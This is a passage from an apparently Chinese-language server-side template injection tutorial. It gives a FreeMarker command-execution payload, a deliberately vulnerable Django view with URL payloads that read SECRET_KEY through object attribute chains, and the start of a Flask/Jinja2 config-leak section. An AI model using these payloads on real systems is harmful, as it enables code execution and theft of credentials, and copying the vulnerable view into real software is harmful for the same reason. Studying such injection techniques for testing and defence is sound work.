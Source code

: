 
- FreeMarker

Payload:

```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

### 框架特性

- Django

```python
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))
```

这里的注入点明显就是`email`，但如果我们的能力被严格限制，难以执行命令，又想获取 User 的相关配置信息时应该怎么做呢？

> Django是一个庞大的框架，其数据库关系错综复杂，我们其实是可以通过属性之间的关系去一点点挖掘敏感信息。但Django仅仅是一个框架，在没有目标源码的情况下很难去挖掘信息，所以我的思路就是：去挖掘Django自带的应用中的一些路径，最终读取到Django的配置项.

Django 自带的应用 admin 的 [models.py](https://github.com/django/django/blob/master/django/contrib/admin/models.py#L3) 中导入了当前网站的配置文件：

```python
from django.conf import settings
```

此时的思路为：想办法找到Django默认应用admin的model，再通过这个model获取settings对象，进而获取数据库账号密码、Web加密密钥等信息。

Payload:

```python
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

- Flask/Jinja2

config 是Flask模版中的一个全局对象，它代表“当前配置对象(flask.config)”，它是一个类字典的对象，它包含了所有应用程序的配置值。在大多数情况下，它包含了比如数据库链接字符串，连接到第三方的凭证，SECRET_KEY等敏感值。虽然config是一个类字典对象，但是通过查阅文档可以发现 config 有很多神奇的方法：from_envvar, from_object, from_pyfile, 以及root_path。

```python
def from_pyfile(self, filename, silent=False):
    filename = os.path.join(self.root_path, filename)
    d = types.ModuleType('config')
    d.__file__ = filename
    try:
        with open(filename) as config_file:
            exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
    except IOError as e:
        if silent and e.errno in (errno.ENOENT, errno.EISDIR):
            return False
        e.strerror = 'Unable to load configuration file (%s)' % e.strerror
        raise
    self.from_object(d)
    return True


def from_object(self, obj):
    if isinstance(obj, string_types):
        obj = import_string(obj)
    for key in dir(obj):
        if key.isupper():
            self[key] = getattr(obj, key)
```
